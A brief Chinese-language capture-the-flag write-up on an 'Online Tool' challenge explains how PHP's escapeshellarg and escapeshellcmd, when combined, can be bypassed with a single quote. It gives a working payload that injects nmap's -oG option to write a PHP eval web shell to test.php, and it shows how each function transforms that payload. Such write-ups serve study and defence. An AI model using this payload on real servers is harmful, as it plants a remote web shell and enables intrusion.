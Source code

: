 ## 0x01 Online Tool

通过nmap写入文件指令-oG进行写马

涉及到`escapeshellarg`和`escapeshellcmd`联合使用的绕过

`escapeshellarg`函数：

对单引号转义，并将其他部分用单引号括起来

`escapeshellcmd`函数：

`escapeshellcmd()` 对字符串中可能会欺骗 `shell` 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 `exec()` 或 `system()` 函数，或者 执行操作符 之前进行转义。

反斜线`\`会在以下字符之前插入： `&#;|*?~<>^()[]{}$\` ,`\x0A` 和 `\xFF`。 `'` 和 `"` 仅在不配对儿的时候被转义。 在 Windows 平台上，所有这些字符以及 `%` 和 `!` 字符都会被空格代替。

对于该题中`escapeshellarg()`和`escapeshellcmd()`联合使用的情况，我们可以采用单引号进行绕过

Payload：

```
/?host=' <?php eval($_POST[shell]);?> -oG test.php '
```

经过`escapeshellarg()`函数后该payload会变为

```
\' '<?php eval($_POST[shell]);?> -oG test.php \''
```

经过`escapeshellcmd()`函数后该payload会变为

```
\\' '\<\?php eval\(\$_POST\[shell\]\)\;\?\> -oG test.php \\''
```



